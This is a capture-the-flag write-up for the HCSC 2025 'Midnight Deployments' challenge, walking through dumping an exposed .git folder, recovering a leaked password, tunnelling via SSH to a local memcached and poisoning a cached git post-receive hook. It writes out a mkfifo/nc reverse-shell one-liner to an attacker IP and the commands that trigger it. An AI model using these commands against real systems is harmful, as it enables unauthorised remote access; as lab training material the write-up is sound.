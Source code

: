 # HCSC 2025 - Midnight Deployments

## Description

A sleep-deprived sysadmin, fueled by caffeine and regret, rushed a last-minute deployment at 3 AM. The code worked—somehow. Management was happy—probably. And security? Well… let’s not talk about security. Now, their past decisions are coming back to haunt them. Can you uncover what they missed before they wake up?

Flag format: `HCSC{...}`

`10.10.1-9.11:17367,22283`

*By: ab310*

## Metadata

- Filename: -
- Tags: `git`, `ssh`, `dynamic port forward`, `socks`, `memcached`, `git hook`, `post-receive`
- Points: 500
- Number of solvers: 3

## Solution

Unfortunatelly, I was not able to solve this challenge, regardless the fact that I've solved several similar tasks before, missmanaged sleeping...

Let's run `nmap` on the given ports:

```
[...]
17367/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
22283/tcp open  http    Apache httpd 2.4.62 ((Debian))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
| http-git:
|   10.10.4.11:22283/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Addnig nothing
|_http-server-header: Apache/2.4.62 (Debian)
```

We have an SSH server and a webserver with an accessible `/.git/` folder.

Let's download the `/.git` repository using `git-dumper` (<https://github.com/arthaud/git-dumper>).

If we check the `logs` and go back to the first commit, we'll get some credentials for the `git` user.

```bash
$ git:(master) git logs
commit da808a74469be3a2d0ae67521e2c82b006daf411 (HEAD -> master)
Author: root <root@localhost>
Date:   Tue Apr 8 15:01:59 2025 +0000

    Addnig nothing

commit bbe9af1aa04ae51b9d43be006cf1cf0022852922
Author: root <root@localhost>
Date:   Tue Apr 8 15:01:59 2025 +0000

    Oooops

commit b745be84816424f92167e3f02bb657046c08fd17
Author: root <root@localhost>
Date:   Tue Apr 8 15:01:59 2025 +0000

    Initial commit

$ git:(master) git checkout b745be84816424f92167e3f02bb657046c08fd17
Note: switching to 'b745be84816424f92167e3f02bb657046c08fd17'.

HEAD is now at b745be8 Initial commit
$ git:(b745be8) ls
$ git:(b745be8) ls -la
total 16
drwxr-xr-x 3 pentest pentest 4096 Apr 26 10:47 .
drwxr-xr-x 3 pentest pentest 4096 Apr 26 10:46 ..
drwxr-xr-x 7 pentest pentest 4096 Apr 26 10:47 .git
-rw-r--r-- 1 pentest pentest   37 Apr 26 10:47 .git-credentials
$ git:(b745be8) cat .git-credentials
git:REvOnr2nTInUUja6rhFEtR8oxg1fnClB
```

The credentials can be checked with SSH:

```bash
$ ssh -p 17367 git@10.10.1.11
(git@10.10.1.11) Password:
Linux 8ef5195c7e22 6.1.0-33-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.133-1 (2025-04-10) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have new mail.
Last login: Wed Apr 30 11:07:12 2025 from 10.9.0.6

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
fatal: Interactive git shell is not enabled.
hint: ~/git-shell-commands should exist and have read and execute access.
Connection to 10.10.1.11 closed.
```

We cannot execute any command and it is not possible to clone or push to the identified repository because it is owned by the `root` user. Available exploits against git servers did not work.

The only thing we can to is to create an SSH dynamic port forward and pray that there is a service which is only listening on `localhost`.

```bash
$ ssh -D 9050 -N -p 17367 git@10.10.1.11
```

```bash
# Edit /etc/proxychains.conf if necessary
$ proxychains -q nmap -v -sT -p- 127.0.0.1
[...]
Discovered open port 22/tcp on 127.0.0.1
Discovered open port 80/tcp on 127.0.0.1
Discovered open port 11211/tcp on 127.0.0.1
[...]
$ proxychains -q nmap  -sT -sV -p 11211 127.0.0.1
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-03 02:21 CEST
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Nmap scan report for 127.0.0.1
Host is up (0.054s latency).

PORT      STATE SERVICE   VERSION
11211/tcp open  memcached Memcached 1.6.18 (uptime 566189 seconds)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.31 seconds
```

There is a `memcached` service running, which is only available on `localhost`. We can use `libmemcached-tools` to query the memory cache.

```bash
$ sudo apt install libmemcached-tools
$ proxychains memcdump --servers=127.0.0.1
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:11211  ...  OK
git:cache:hooks/post-receive
$ proxychains memccat --servers=127.0.0.1 git:cache:hooks/post-receive
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:11211  ...  OK
echo 'Repository location is /home/git/repo'
```

There is a `git:cache:hooks/post-receive` entry in the cache with the content `echo 'Repository location is /home/git/repo'`. Here we can have an idea, to update the content of the cache (the `post-receive` hook) by writing some custom code to it (reverse shell) and then push something to the repository to trigger the hook.

The repository can be cloned using the following command:

```bash
$ git clone ssh://git@10.10.1.11:17367/home/git/repo
Cloning into 'repo'...
(git@10.10.1.11) Password:
remote: Enumerating objects: 114, done.
remote: Counting objects: 100% (114/114), done.
remote: Compressing objects: 100% (86/86), done.
remote: Total 114 (delta 18), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (114/114), 9.59 KiB | 37.00 KiB/s, done.
Resolving deltas: 100% (18/18), done.
```

If we push something to the repository, we will receive the output of the hook in the `remote: ` lines:

```bash
$ git push
(git@10.10.1.11) Password:
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 16 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 305 bytes | 305.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)
remote: Repository location is /home/git/repo
To ssh://10.10.1.11:17367/home/git/repo
   505dd7f..03bb0a5  master -> master
```

It is important to highlight that we can only execute one command or separate it with `&&`.

Now we can create a file `git:cache:hooks/post-receive` with some reverse shell content (`rm /tmp/f && mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.0.184 12345 > /tmp/f`) and upload it to `memcached` using `memccp` and `memccat`.

```bash
$ git:(master) ✗ proxychains memccp --servers=127.0.0.1 --relative git:cache:hooks/post-receive
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:11211  ...  OK
$ git:(master) ✗ proxychains memccat --servers=127.0.0.1 git:cache:hooks/post-receive
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  127.0.0.1:11211  ...  OK
rm /tmp/f && mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.0.184 12345 > /tmp/f
```

It is important to highlight that the content of the hook will be reset after a few seconds!

If we set the reverse shell payload and push to the repository, we will get the response in `nc` and we can get the flag:

```bash
$ echo `date` > test
$ git add test
$ git commit -m "test"
[master 5c948bc] test
 1 file changed, 1 insertion(+), 1 deletion(-)
$ git push
(git@10.10.1.11) Password:
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 16 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 305 bytes | 305.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0 (from 0)

```

```bash
$ nc -vlnp 12345
Listening on 0.0.0.0 12345
Connection received on 10.10.1.11 49148
/bin/sh: 0: can't access tty; job control turned off
$ find / -name flag.txt 2>/dev/null
/home/git/d3v3l0p3r_d1rty_s3cr3t/flag.txt
$ cat /home/git/d3v3l0p3r_d1rty_s3cr3t/flag.txt
HCSC{c4Ch3_Me_1f_y0U_cAn}
```

The flag is: `HCSC{c4Ch3_Me_1f_y0U_cAn}`